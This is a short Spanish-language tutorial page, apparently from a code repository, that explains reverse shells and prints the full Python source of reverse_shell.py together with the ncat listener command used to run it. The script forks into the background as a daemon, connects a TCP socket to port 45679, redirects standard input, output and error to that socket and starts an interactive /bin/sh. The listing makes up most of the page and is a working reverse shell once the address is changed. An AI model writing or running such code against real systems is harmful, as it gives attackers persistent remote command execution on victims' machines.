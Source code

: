 
### Shell Inverso (Reverse Shell)
Un shell inverso es una técnica de seguridad que permite a un atacante establecer una conexión con un sistema remoto y obtener un shell (terminal) en ese sistema.

El propósito es crear un proceso "demonio" (daemon), que tiene estas características:
- Se ejecuta en segundo plano
- No está conectado a ninguna terminal
- No puede ser terminado fácilmente

Esto significa que si un atacante logra establecer una conexión con el sistema remoto, puede mantener una conexión persistente y ejecutar comandos en el sistema sin la intervención del usuario.

En el código `reverse_shell.py` se encuentra la implementación:
```python
#!/usr/bin/python

#ncat -l -v -p 45679

import socket # Para comunicación en red
import subprocess # Para ejecutar comandos del sistema
import os # Para interactuar con el sistema operativo

socket_handler = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # Crea un socket TCP/IP

# Intenta crear un fork del proceso (fork es una técnica para crear un nuevo proceso hijo)
try:
    if os.fork() > 0: # Si el fork es exitoso y estamos en el proceso padre (> 0), termina el proceso padre
        os._exit(0)
# Si hay un error, intenta hacer fork nuevamente
except OSError as error:
    print('Error in fork process: %d (%s)' % (error.errno, error.strerror))
    pid = os.fork() # Crea un nuevo proceso hijo
    if pid > 0:
        print('Fork Not Valid!')
        
socket_handler.connect(("127.0.0.1", 45679)) # Conecta al servidor en localhost:45679

# Redirige los descriptores de archivo estándar (0: stdin, 1: stdout, 2: stderr) al socket
os.dup2(socket_handler.fileno(),0)
os.dup2(socket_handler.fileno(),1)
os.dup2(socket_handler.fileno(),2)

shell_remote = subprocess.call(["/bin/sh", "-i"]) # Ejecuta un shell remoto
list_files = subprocess.call(["/bin/ls", "-i"]) # Lista los archivos en el directorio

```
#### Ejecución

1. En una terminal, inicio el listener:
```bash
ncat -l -v -p 45679
```
